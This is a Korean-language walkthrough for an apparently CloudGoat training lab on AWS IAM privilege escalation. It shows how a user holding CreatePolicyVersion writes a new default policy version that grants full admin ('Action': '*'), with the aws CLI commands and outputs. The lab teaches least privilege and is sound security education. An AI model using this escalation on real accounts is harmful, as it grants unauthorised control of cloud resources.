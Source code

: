 ## 시나리오 리소스

- IAM * 1  

## 목표  
  
- 최소 권한 원칙의 설명  
- 위험 권한의 이해  
  
## 개요  
  
- player는 List* , GetPolicyVersion , CreatePolicyVersion의 권한을 가지고 있음  
- CreatePolicyVersion 권한을 통해 자신에게 정책을 할당하여 admin권한으로 상승하는 상황을 연출  
  
## 실행 명령어  
`./cloudgoat.py create iam_tutorial_CreatePolicyVersion`  
  
***  
  
### 1. 할당된 정책 확인  
IAM에게 할당된 권한을 확인하기 위해서는 먼저 정책의 이름과 ARN을 알아내야 합니다.    
`aws iam list-attached-user-policies --user-name [Profile Name] --profile player`    
  
해당 명령어를 통해 특정 IAM에게 할당된 정책을 확인할 수 있습니다.  

```  
{
	"AttachedPolicies":[
		{
			"PolicyName": "iam_policy_tutorial",
			"PolicyArn": "[PolicyArn]"
		}
	]
}
```  
  
할당된 정책의 이름과 Arn(Amazon Resource Name)이 보입니다.  


### 2. 정책의 권한 확인  
정책의 ARN을 확인하였으니 정책에게 할당된 자세한 권한까지 확인해야할 단계입니다.  
  
다음과 같은 명령어를 사용하여 정책에 할당된 권한까지 확인을 할 수 있습니다.  
  
`aws iam get-policy-version --policy-arn <Policy ARN> --version-id <Version ID>`  

```  
{
	"PolicyVersion": {
		"Document": {
			"Statement": [
				{
					"Action": [
						"iam:List*",
						"iam:GetPolicyVersion",
						"iam:CreatePolicyVersion"
					],
					"Effect": "Allow",
					"Resource": "*"
				}
			],
			"VersionId": "v1",
			"IsDefaultVersion": false,
			"CreateDate": "2023-11-14T09:21:36Z"
		}
	}
}
```  
  
확인결과 해당 정책에는 총 3가지의 정책이 부여되었습니다.  
1. `iam:List*`  
2. `iam:GetPolicyVersion`  
3. `CreatePolicyVersion`  
  
  
### 3. 정책 수정  
이중에서도 주목해야 할 것은 3번째의 `CreatePolicyVersion`입니다.  
  
IAM에게 할당된 정책은 수정이 가능하며 마치 Git처럼 버전관리가 가능합니다. `CreatePolicyVersion` 권한을 가지고 있다면 현재 자신이 가지고있는 정책을 수정할 수 있습니다.  
  
다음 명령어를 통해 진행해 보겠습니다.  

`aws iam create-policy-version \  
  --policy-arn <Policy ARN> \  
  --policy-document file://./scenairo/iam_tutorial_CreatePolicyVersion/policy.json \
  --set-as-default  
`  
  
다음과 같은 명령어를 통해 새로운 정책 버전을 생성하고 기본 정책 버전으로 설정할 수 있으며  
, 마지막에 `--set-as-default`옵션을 지정해주어 생성한 권한을 바로 적용해 주었습니다.  
  
```  
{
	"PolicyVersion":{
		"VersionId": "v3",
		"IsDefaultVersion": true,
		"CreateDate": "2023-11-14T10:56:30Z"
	}
}
```  
  
  
### 4. 마무리  
이후 정말로 설정되었는지 보겠습니다.  
  
위 사진에서 정책의 버전이 v3라고 되어있으니 v3버전의 정책을 확인해보도록 하겠습니다.  

```aws iam get-policy-version --policy-arn <Policy ARN> --version-id v3```  
  
```  
{
	"PolicyVersion":{
		"Document": {
			"Version": "2012-10-17",
			"Statement": [
				{
					"Effect": "Allow",
					"Action": "*",
					"Resource": "*"
				}
			]
		},
		"VersionId": "v3",
		"IsDefaultVersion": true,
		"CreateDate": "2023-11-14T10:56:30Z"
	}
}
```  
  
Admin권한으로 잘 수정된것을 확인할 수 있습니다.  

